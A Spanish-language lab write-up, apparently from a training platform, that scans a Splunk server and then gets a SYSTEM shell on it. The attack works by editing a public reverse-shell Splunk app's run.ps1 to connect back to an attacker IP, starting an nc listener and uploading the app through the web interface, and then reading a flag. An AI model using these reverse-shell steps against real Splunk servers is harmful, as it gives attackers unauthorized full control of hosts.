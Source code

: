 # Laboratorio: Splunk 🔎

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/Splunk/01-Ports.PNG">
</p>

--

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
<SNIP>
8000/tcp  open  ssl/http        Splunkd httpd
| ssl-cert: Subject: commonName=APP03/organizationName=SplunkUser
<SNIP>
```

--

3. Visitamos el servicio web, y vemos la versión de `Splunk` en el título de la página
* **URL:** `https://[IP]:8000/`

<p align="center">
    <img src="./assets/Splunk/02-Versions.PNG">
</p>
---

# Laboratorio: Attacking Splunk ⚔

1. Descargamos el siguiente recurso: `https://github.com/0xjpuff/reverse_shell_splunk.git`
---
2. En el escaneo previa sabemos que la aplicación se encuentra **hosteada** en Windows, por lo que modificaremos el script **run.ps1** que se encuentra en el directorio `bin`

* **run.ps1**
```ps1
<SNIP>System.Net.Sockets.TCPClient('[IP Atacante]',[Puerto]);<SNIP>
```
  
* Lo comprimimos con `tar -cvzf shell.tar.gz reverse_shell_splunk`

---
4. Previamente nos ponemos en escucha con nc: **`rlwrap nc -lvnp [Puerto]`**
---
3. Nos dirigimos a `https://10.129.201.50:8000/en-US/manager/search/apps/local` y damos clic en ⬜`Install App From File`⬜, y subimos nuestra `aplicación comprimida`
---
5. Obtenemos un shell como el usuario `nt authority\system`, ahora leemos la **flag** 🏴

```cmd
PS C:\loot> type flag.txt
l00k_ma_no_AutH!
```